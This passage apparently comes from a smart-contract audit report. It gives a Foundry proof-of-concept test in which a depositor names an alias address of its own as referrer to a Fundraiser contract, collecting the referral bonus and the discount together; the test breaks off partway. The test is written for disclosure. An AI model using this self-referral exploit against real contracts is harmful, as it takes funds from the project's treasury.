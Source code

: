 ### Coded POC

How to use this POC:

- Integrate foundry as guided [here](https://hardhat.org/hardhat-runner/docs/advanced/hardhat-and-foundry)
- Run both tests using `forge test --mt testReferralExploit` and `forge test --mt testTotalDepositsReferredIssue`. You can use the `-vvvvv` flag to view traces in the terminal.
- The first test proves how user A is always able to use its alias address to receive back the referral bonus amount + receive an additional discount.
- The second test proves how user B's (the referrer's) `totalDepositsReferred` value is different depending on how it is called by user A.
- Both the above impacts arise from the same root cause. The solution has been provided under `Recommendations`.

```solidity
// SPDX-License-Identifier: BUSL-1.1

pragma solidity ^0.8.28;

import {Test, console2} from "forge-std/Test.sol";
import {Fundraiser} from "../contracts/Fundraiser.sol";

contract TestReferralExploit is Test {

    Fundraiser fundRaiser;

    address treasury = makeAddr("treasury");

    address userA = makeAddr("userA");
    address userA_Alias = makeAddr("userA_Alias");
    address userB = makeAddr("userB");

    function setUp() public {

        // Deploy fund raiser with 1e18 as ETH price (i.e. 1 node costs 1 ETH).
        fundRaiser = new Fundraiser(treasury, address(0), address(0), 1e18, 0, 0);
    }

    function testReferralExploit() public {
        fundRaiser.start();

        // Set ETH balance of User A as 10 ETH
        vm.deal(userA, 10e18);

        // User A's first 10 ETH deposit with referrer as user A's alias address
        vm.prank(userA);
        fundRaiser.deposit{value: 10e18}(Fundraiser.TokenType.NATIVE, 10, 10e18, userA_Alias);

        // Assert:
        // 1. User A's alias address received 5% of 10e18
        // 2. User A still holds 5% of 10e18 (discounted amount)
        // 3. Treasury received 90% of 10e18
        assertEq(userA_Alias.balance, 500/10000 * 10e18);
        assertEq(userA.balance, 500/10000 * 10e18);
        assertEq(treasury.balance, 90/100 * 10e18);

        // Mint 10 ETH to User A (existing balance + mint 10 ETH due to how vm.deal works)
        vm.deal(userA, userA.balance + 10e18);

        // User A's second 10 ETH deposit with same referrer being passed as parameter
        vm.prank(userA);
        fundRaiser.deposit{value: 10e18}(Fundraiser.TokenType.NATIVE, 10, 10e18, userA_Alias);

```